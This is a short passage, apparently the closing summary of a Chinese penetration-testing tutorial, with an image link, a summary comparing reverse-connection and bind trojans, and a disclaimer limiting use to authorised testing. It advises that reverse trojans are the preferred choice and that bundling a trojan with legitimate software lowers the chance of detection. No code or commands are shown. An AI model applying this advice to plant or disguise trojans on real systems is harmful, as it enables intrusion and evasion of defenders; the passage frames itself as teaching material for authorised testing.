

## 总结

反向木马配置简单、成功率高，是首选方式；正向木马适合目标无法主动出网的场景。捆绑正常程序可以降低被发现概率，但也要求对目标环境和常用软件有足够了解。

::: warning 声明
本文仅用于授权的安全测试与教学环境，请勿对未授权目标进行测试。
:::
